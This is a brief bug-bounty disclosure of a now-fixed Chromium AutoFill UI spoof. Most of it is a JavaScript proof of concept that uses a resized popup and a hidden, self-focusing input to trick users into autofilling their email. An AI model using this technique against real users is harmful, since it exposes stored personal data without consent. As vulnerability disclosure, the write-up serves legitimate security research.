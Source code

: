 ```yaml
---
title: AutoFill UI spoof (Awarded $1000)
---
```


AutoFill is not be meant to be usable via keyboard shortcuts when its hidden.  
But with a certain window size it would attempt to render over the url bar.

```js
let w = window.open('', '', 'width=1,height=1');
w.resizeTo(250, 150);
w.eval(`
let input = document.createElement("input");
input.type = "email";
input.autocomplete = "email";
input.name = "email";
input.size = "1";
input.style.opacity = '0';
input.onkeypress = e => {
    e.preventDefault();
}
window.onmousedown = e => {
    // ignore mouse clicks
    e.preventDefault();
}
input.onchange = e => {
    alert(e.srcElement.value);
    e.srcElement.value = "";
}
document.body.appendChild(input);
setInterval(() => {
    input.focus({preventScroll: true});
}, 1000);
`);
let p = document.createElement('p');
p.innerText = 'Please press the Up arrow then Enter :)';
w.document.body.appendChild(p);
```

This was fixed in <https://chromium-review.googlesource.com/c/chromium/src/+/3525299>
